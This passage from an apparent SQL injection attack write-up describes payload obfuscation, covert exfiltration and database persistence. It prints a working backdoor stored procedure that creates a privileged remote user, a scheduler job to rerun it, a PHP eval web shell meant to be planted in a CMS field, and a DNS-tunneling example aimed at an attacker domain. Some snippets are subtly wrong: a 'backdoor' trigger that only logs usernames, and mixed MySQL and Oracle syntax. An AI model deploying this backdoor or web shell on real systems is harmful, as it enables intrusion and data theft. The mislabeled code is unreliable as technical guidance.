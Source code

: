 #### **2. Obfuscated Payloads**  
Attackers encode or fragment SQL commands to bypass signature-based detection:  
| **Technique**       | **Example**                                                                 | **Purpose**                                  |  
|----------------------|-----------------------------------------------------------------------------|----------------------------------------------|  
| **Hex Encoding**     | `SELECT UNHEX('48656c6c6f20576f726c64')` (decodes to "Hello World")          | Evades keyword-based WAF rules.              |  
| **Unicode Encoding** | `SELECT NCHAR(0x41) + NCHAR(0x42)` (outputs "AB")                           | Bypasses character filtering.                |  
| **Comment Splitting**| `SELECT /*malicious*/ payload FROM table`                                  | Disrupts pattern matching.                   |  

#### **3. Stealthy Exfiltration**  
Data is transferred in ways that avoid network monitoring:  
| **Method**               | **Example**                                                                 | **Stealth Level** |  
|--------------------------|-----------------------------------------------------------------------------|-------------------|  
| **DNS Tunneling**         | Embedding data in DNS query subdomains (e.g., `data-0x4142.attacker.com`)   | High              |  
| **Encrypted Channels**    | Using HTTPS or TLS to mask exfiltration traffic                            | Moderate          |  
| **Fragmented Transfers**  | Splitting data into small, innocuous payloads (e.g., via `UNION SELECT`)    | High              |  

---

### **Persistence Mechanisms**  

#### **1. Stored Backdoors**  
Attackers embed malicious code within the database to ensure recurring access:  
- **Stored Procedures**:  
  ```sql  
  CREATE PROCEDURE auto_backdoor()  
  BEGIN  
    CREATE USER 'persistence'@'%' IDENTIFIED BY 'securepass';  
    GRANT ALL PRIVILEGES ON *.* TO 'persistence'@'%';  
  END;  
  ```  
  - **Scheduling**: Use `DBMS_SCHEDULER` (Oracle) or `EVENT` (MySQL) to execute hourly:  
    ```sql  
    DBMS_SCHEDULER.create_job(job_name => 'auto_backdoor_job', job_type => 'PLSQL_BLOCK', job_action => 'BEGIN auto_backdoor(); END;', repeat_interval => 'FREQ=HOURLY');  
    ```  

- **Triggers**:  
  ```sql  
  CREATE TRIGGER backdoor_trigger  
  AFTER INSERT ON users  
  FOR EACH ROW  
  BEGIN  
    INSERT INTO logs (data) VALUES (CONCAT('Backdoor activated:', NEW.username));  
  END;  
  ```  

#### **2. Web Shells**  
Malicious code is injected into database fields to enable remote command execution:  
- **Example Injection**:  
  ```php  
  <?php eval($_REQUEST['cmd']); ?>  
  ```  
  - **Deployment**: Stored in a vulnerable field (e.g., `description` in a CMS table). When the field is rendered by the web app, the code executes.  
